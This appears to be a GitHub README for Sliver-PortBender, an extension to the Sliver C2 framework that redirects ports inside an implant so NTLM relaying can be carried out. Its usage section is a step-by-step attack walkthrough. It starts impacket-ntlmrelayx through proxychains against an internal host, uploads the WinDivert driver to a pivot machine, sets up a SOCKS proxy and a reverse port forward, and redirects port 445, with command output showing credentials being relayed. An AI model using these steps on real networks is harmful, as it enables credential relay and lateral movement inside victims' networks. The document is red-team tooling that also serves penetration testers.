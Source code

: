 # Sliver-PortBender

An **extension to Sliver C2**, that allows to **manage multiple redirection traffic rules, from port to port, inside the same implant**. 
It maybe useful for performing **NTLM relaying in Sliver** in a similar way to what is described here https://rastamouse.me/ntlm-relaying-via-cobalt-strike/ for Cobalt-Strike. I recommend the user to first read the article before in case doesn't have any experience with PortBender.
**The extension is a DLL wrapping the PortBender Reflective DLL** developed by praetorian-inc here: https://github.com/praetorian-inc/PortBender. Sliver-PortBender performs the same redirection task, 
performed by the original PortBender, but does everything **inside the same implant with no need to inject into other binaries or drop binaries to disk**.

## How it works

The DLL manages multiple threads each one in charge of redirecting traffic from one port to another one. It keeps a map ID -> thread that allows to destroy/create/list the different
threads. For redirection task most of the code was taken from the original PortBender project and it was refactored in order to not crash the implant.
Even if the **backdoor** command appears as a possible argument, it is actually **not available**.

## How to build it

open the solution file using visual studio 2019, and build the x64 release (I didn't test the x86).

## How to load / install it

Until this is potentially included in the armory it can be built on a windows system and loaded manually in sliver.
Create a directory called sliver-extension and copy inside it SliverPortBender.dll, the binary previously compiled on windows with visual studio, and extension.json:
```
$ mkdir sliver-extension && cd sliver-extension
$ cp /path/to/extension.json .
$ cp /path/to/SliverPortBender.dll .
```

Install and load the extension in sliver-client:
```
> extension install /path/to/sliver-extension
> extension load /path/to/sliver-extension
```

Alternatively you can download the release and use again the `extension install` and `extension load` commands with the folder extracted from the zip in the release. Only x64 version is in the release.

## Usage

Be careful to use it only with **session** type implants. **beacons** in sliver have the issue of reloading everytime the DLL, instead of loading it only the first time it gets executed. I'll perform a PR that fix that behaviour soon.

By running `portbender` you can already get a help message. Here the functionalities:

- `portbender redirect <fakeDstPort> <redirectedPort>` . Redirects the traffic from `<fakeDstPort>` to `<redirectedPort>`
- `portbender list` . List the active redirection rules created with the `redirect command`
- `portbender remove <id>` . Stop and remove a redirection rule with a given `<id>`. The `<id>` is retrieved through the `portbender list`command.

### Example

Here how to use Sliver-Portbender in sliver in order to redirect traffic from port 445 to port 8445 and then relay incoming traffic with ntlmrelayx in the internal network.
Be careful It is first necessary to upload `WinDivert64.sys` in the pivot machine to the path `C:\Windows\System32\drivers`. Later it is necessary to change directory to `C:\Windows\System32\drivers`.

Starting ntlmrelayx:
```

┌──(kali㉿kali)-[~]
└─$ proxychains4 impacket-ntlmrelayx -smb2support -t smb://WIN-ICSQJ44N1F3.contoso.local --no-http-server
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections

```

Creating socks proxy, port forwarding rule and portbender rule in session:

```

[*] Active session RIPE_COUNCILOR (2aff286b-da8d-4636-8f8e-8512f67ab64e)

sliver (RIPE_COUNCILOR) > socks5 start -P 1080

[*] Started SOCKS5 127.0.0.1 1080
⚠️  In-band SOCKS proxies can be a little unstable depending on protocol

sliver (RIPE_COUNCILOR) > cd C:\\Windows\\System32\\Drivers

[*] C:\Windows\System32\Drivers

sliver (RIPE_COUNCILOR) > ls WinDivert64.sys

C:\Windows\System32\Drivers (1 item, 37.0 KiB)
==============================================
-rw-rw-rw-  WinDivert64.sys  37.0 KiB  Sun Dec 11 21:20:20 +0100 2022


sliver (RIPE_COUNCILOR) > rportfwd add -b 0.0.0.0:8445 -r 192.168.161.50:445

[*] Reverse port forwarding 192.168.161.50:445 <- 0.0.0.0:8445

sliver (RIPE_COUNCILOR) > portbender redirect 445 8445

[*] Successfully executed portbender
[*] Got output:
Initializing manager...
Creating redirection with id 0...
Redirection created successfully


sliver (RIPE_COUNCILOR) > portbender list

[*] Successfully executed portbender
[*] Got output:
        id:     ORIGINAL_PORT -> REDIRECTED_PORT        MODE(0=redirect,1=backdoor)     PASSWORD
        0:      445 -> 8445     0


sliver (RIPE_COUNCILOR) > 
```

Generating some traffic towards port 445 on the pivot machine (ip=192.168.161.30) where the implant is running:
```
C:\Users\Administrator>dir \\192.168.161.30\c$
The user name or password is incorrect.

C:\Users\Administrator>
```

Notice ntlmrelayx captured and relayed some traffic towards another machine in the internal network:

![immagine](https://user-images.githubusercontent.com/74059030/208508027-c9e472d8-5b70-4722-a675-f07baf8cf768.png)

Removing the port redirection rule in the sliver implant:
```

sliver (RIPE_COUNCILOR) > portbender remove 0

[*] Successfully executed portbender
[*] Got output:
successfully removed redirection with Id 0


sliver (RIPE_COUNCILOR) > portbender list

[*] Successfully executed portbender
[*] Got output:
Nothing to show


sliver (RIPE_COUNCILOR) >

```

Notice now the previous command used to generate traffic executes successfully:
![immagine](https://user-images.githubusercontent.com/74059030/208510154-ffb4c5b6-d9cb-4e0a-8de3-e6cea1a114e8.png)


## Credits

- https://github.com/BishopFox/sliver/wiki/Aliases-&-Extensions#extensions
- https://github.com/praetorian-inc/PortBender
- https://rastamouse.me/ntlm-relaying-via-cobalt-strike/
- https://github.com/trustedsec/SliverKeylogger

Special thanks goes to [@rkervella](https://github.com/rkervella) [@moloch--](https://github.com/moloch--) and the other members of Bishop Fox for their job on Sliver. I thank also [@freefirex](https://github.com/freefirex) for his work on Sliver Keylogger, in fact I was insipired by his work when creating the extension.

